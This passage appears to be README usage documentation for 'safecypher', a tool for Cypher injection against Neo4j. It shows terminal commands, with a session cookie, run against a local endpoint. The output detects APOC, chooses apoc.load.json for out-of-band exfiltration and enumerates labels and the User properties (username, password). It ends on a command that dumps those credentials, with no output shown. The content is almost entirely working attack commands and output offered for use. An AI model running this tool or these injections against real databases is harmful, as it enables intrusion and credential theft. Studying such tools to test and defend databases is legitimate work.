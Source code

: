 
### Out-of-band (LOADCSV/APOC.LOAD.CSV/JSON)

1. Dump labels
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --labels
	
	APOC detected, retrieving APOC version...
	+------+----------------+
	| ID   | apoc_version   |
	+======+================+
	| -    | 5.18.0         |
	+------+----------------+
	APOC Version 5.18.0 is not affected by the known vulnerabilities.
	
	Use APOC to exfiltrate?
	Enter 1 for apoc.load.json, anything else to not use APOC: 1
	[*] target likely injectable, continuing
	[+] working character: [-8381']
	
	[*] Version Check [*]
	+------+--------------+-----------+-----------+
	| ID   | name         | version   | edition   |
	+======+==============+===========+===========+
	| -    | Neo4j Kernel | 5.18.1    | community |
	+------+--------------+-----------+-----------+
	
	[*] available labels [5]:
	[+] User
	[+] Keyboard
	[+] Character
	[+] Place
	[+] Organization
	```

2. Dump properties in relation to label
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User --properties
	
	[*] Label: User
	[+] available properties [2]:
	[++] password
	[++] username
	```
3. Dump values in relation to label and properties
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band -L User -P username,password
	